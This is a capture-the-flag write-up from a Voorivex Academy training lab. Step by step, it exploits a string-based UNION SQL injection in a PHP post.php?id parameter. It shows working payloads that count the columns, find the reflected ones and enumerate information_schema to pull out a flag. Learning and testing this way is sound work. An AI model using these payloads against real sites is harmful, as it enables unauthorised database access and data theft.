




# SQLi Level 1 (String UNION)- Voorivex Academy

## Summary

-  **Requirements:**
    - **Programming Language: PHP**

    - **Skill: Source Code Auditing**

    - **SQLi: UNION technique in string values**

  
- **Objective**

    - **Your goal is to extract the flag from the database by exploiting a SQL injection vulnerability**

**
 As mentioned, we're looking for vulnerable queries in the web app — let's get started! :)
**

## Initial Discovery

When opening the target site, the first thing that stands out is the
following URL:

    XYZ.online/post.php?id=1

To test for SQL injection, I added a single quote (`'`) at the end of
the parameter:

**`?id=1'`**

This triggered an SQL error, confirming that the `id` parameter is
vulnerable.

Next, I attempted to fix the broken query using a comment sequence:

**`?id=1'+--+-`**

The page loaded successfully, confirming that the payload worked and the
injection point is valid.

  

## Finding the Number of Columns

To identify how many columns the backend query uses, I tested
`ORDER BY`:

    ?id=1'+ORDER+BY+1+--+-
    ?id=1'+ORDER+BY+2+--+-
    ...
    ?id=1'+ORDER+BY+10+--+-
    ?id=1'+ORDER+BY+11+--+-   ← breaks

The query breaks at `ORDER BY 11`, so the table contains **10 columns**.

## Identifying Visible Columns

To discover which columns are reflected on the page, I tested UNION
payloads.

First, with strings:

**`?id=1'+UNION+SELECT+"STR1","STR2","STR3","STR4","STR5","STR6","STR7","STR8","STR9","STR10"+--+-`**

Then with integers:

**`?id=1'+UNION+SELECT+1,2,3,4,5,6,7,8,9,10+--+-`**

The numeric payload didn't work properly because the page only displays
the **first row** of the SQL result.\
To force it to show our injected row, we prevent the first row from
returning:

**`?id=1'+AND+1=2+UNION+SELECT+1,2,3,4,5,6,7,8,9,10+--+-`**

This successfully revealed which columns are displayed.

## Extracting Database Names

To retrieve the list of databases, I used:

    ?id=1'+AND+1=2+UNION+SELECT+"S1","S2",GROUP_CONCAT(SCHEMA_NAME),"S4","S5","S6","S7","S8","S9","S10"
    FROM+information_schema.schemata--+-

Among the results, the target database was:

    sqli-level-1

## Extracting Table Names

Next, I listed the tables inside the target database:

    ?id=1'+AND+1=2+UNION+SELECT+"S1","S2",GROUP_CONCAT(TABLE_NAME),"S4","S5","S6","S7","S8","S9","S10"
    FROM+information_schema.tables
    WHERE+TABLE_SCHEMA='sqli-level-1'--+-

Tables found:

-   `flag`
-   `news`

## Extracting Column Names from the `flag` Table

    ?id=1'+AND+1=2+UNION+SELECT+"S1","S2",GROUP_CONCAT(COLUMN_NAME),"S4","S5","S6","S7","S8","S9","S10"
    FROM+information_schema.columns
    WHERE+TABLE_SCHEMA='sqli-level-1'
    AND+TABLE_NAME='flag'--+-

Columns:

-   `id`
-   `flag_text`

## Retrieving the Flag

Finally, to extract the actual flag:

    ?id=1'+AND+1=2+UNION+SELECT+"S1","S2",GROUP_CONCAT(flag_text),"S4","S5","S6","S7","S8","S9","S10"
    FROM+sqli-level-1.flag--+-

This payload successfully returned the flag.

